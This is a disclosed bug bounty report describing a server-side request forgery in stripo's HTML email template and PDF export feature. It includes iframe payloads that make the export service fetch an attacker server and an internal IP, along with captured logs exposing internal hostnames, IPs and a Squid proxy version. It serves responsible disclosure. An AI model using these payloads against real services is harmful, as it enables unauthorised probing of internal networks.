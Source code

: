 # Information disclosure through Server side resource forgery

## Report Details
- **Report ID**: 782979
- **URL**: https://hackerone.com/reports/782979
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-25T02:57:14.512Z
- **Disclosed**: 2020-01-28T15:48:08.415Z

## Reporter
- **Username**: checkm50
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
## Summary:
The application https://my.stripo.email has a template feature where can we can enter html code.
By including an iframe in the html template, I was able to make a call to my server.
This exposed an internally running web application. Please refer below,
```63.33.82.168 - - [25/Jan/2020:01:49:33 +0000] "GET /redirect.php HTTP/1.1" 301 5 "http://stripe-export-service:8080/v1/download/template/pdf/57764" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"```

Note the IP address and stripe-export-service URL.

IP address is accessible internal only.

I tried to iframe the IP address which I got above and exported as PDF. It had below information,
```webmaster?subject=CacheErrorInfo - ERR_CONNECT_FAIL&body=CacheHost: proxy-eu.stripo.email
ErrPage: ERR_CONNECT_FAIL
Err: (111) Connection refused
TimeStamp: Sat, 25 Jan 2020 01:37:02 GMT
ClientIP: 172.31.5.123
ServerIP: 63.33.82.168
HTTP Request:
GET / HTTP/1.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://stripe-export-service:8080/v1/download/template/pdf/57763
Accept-Encoding: gzip, deflate
Host: 63.33.82.168```

Above result exposes two things.
* Proxy host proxy-eu.stripo.email
* and the version Squid proxy **(squid/3.5.23)**

This exposure gives more attack surface to an attacker.

## Steps To Reproduce:
1. Logon to stripo
2. Head over to creating an email template and choose html option
3. Use below iframe code to make a call to your server
<iframe src='your domain'></iframe>
4. To hit internal IP address and disclose the proxy info, use below iframe
<iframe src='http://63.33.82.168' height=800 width=800></iframe>

## Supporting Material/References:
Attaching the PDF I exported with proxy related information

## Impact

Exposure of internal web application URL, IP address, Proxy host and the Proxy server Squid version to the attacker gives the attacker more attack surface.

## Attachments
- New_email-6.pdf
